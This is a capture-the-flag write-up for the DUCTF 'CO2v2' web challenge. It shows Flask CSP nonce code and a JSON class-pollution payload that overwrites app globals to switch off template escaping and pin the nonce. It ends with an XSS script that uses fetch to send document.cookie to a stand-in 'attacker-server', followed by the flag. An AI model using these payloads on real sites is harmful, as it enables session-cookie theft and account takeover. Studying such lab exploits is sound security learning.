 CO2v2
============

In the latest iteration, the team removed the get_flag endpoint, so now it won't be possible to use the same vulnerability to exploit this challenge.

Looking through the code, there are a few new elements that have been added:
- New CSP Policies are being used - but right now they are being protected by a "randomly" generated nonce.
- There is a new way to set the template environment for the application - This feature allows the admin user to set a new environment based on their new rules for autoescaping. This is an incomplete feature meant only for test environment.
- There is a new Report button on the index page, looks like this is meant for the administrative user to check for any errors.
- The cookies are not using HttpOnly so its possible to steal a cookie.

Here are the relevant bits of code:
```py
# Secret used to generate a nonce to be used with the CSP policy 
SECRET_NONCE = generate_random_string()
# Use a random amount of characters to append while generating nonce value to make it more secure
RANDOM_COUNT = random.randint(32,64)

TEMPLATES_ESCAPE_ALL = True

# The generated nonce is randomized with some data at the end before hashing with the RANDOM_COUNT global variable.
def generate_nonce(data):
    nonce = SECRET_NONCE + data + generate_random_string(length=RANDOM_COUNT)
    sha256_hash = hashlib.sha256()
    sha256_hash.update(nonce.encode('utf-8'))
    hash_hex = sha256_hash.hexdigest()
    g.nonce = hash_hex
    return hash_hex

# The nonce is generated for page.
@app.before_request
def set_nonce():
    generate_nonce(request.path)

# The CSP is applied to the request
@app.after_request
def apply_csp(response):
    nonce = g.get('nonce')
    csp_policy = (
        f"default-src 'self'; "
        f"script-src 'self' 'nonce-{nonce}' https://ajax.googleapis.com; "
        f"style-src 'self' 'nonce-{nonce}' https://cdn.jsdelivr.net; "
        f"script-src-attr 'self' 'nonce-{nonce}'; " 
        f"connect-src *; "
    )
    response.headers['Content-Security-Policy'] = csp_policy
    return response

# __init__.py
app.config["SESSION_COOKIE_HTTPONLY"] = False

```

Using a similar exploit from last time we need to craft a payload that does the following:
- Figure out a way to generate a nonce that will be used to load scripts - If this step is missed the XSS attack won't work
- Overwrite the template environment and get the application to escape all html.

The following payload will achieve all of the above:
```json
// save_feedback
{
    "title":"",
    "content":"",
    "rating":"",
    "referred":"",
   "__class__": {
        "__init__":{
            "__globals__":{
                "RANDOM_COUNT": 0,
                "SECRET_NONCE": "t",
                "TEMPLATES_ESCAPE_ALL":false
            }
        }
    }
}

// /admin/update-accepted-templates - this request will force the app to set a new template env with the escaping disabled
{
    "title":"",
    "content":"",
    "rating":"",
    "referred":"",
    "policy" : "strict"      
}

```

Now we can figure out what the nonce is, this can be done 2 ways:
- Following the code and generating the nonce locally with the same functions.
- Just refreshing the page and checking the nonce on the / endpoint.

Using the nonce in our payload and clicking on the report button should then reveal the flag.

XSS Payload:
```
<script nonce="a2fe8952412bc49de813bb82db50d5aa497d6106b6b43c8a72cab443aa017e32">fetch("http://attacker-server/xss?cookie="+document.cookie);</script>
```

Flag:
```
DUCTF{_1_d3cid3_wh4ts_esc4p3d_}
```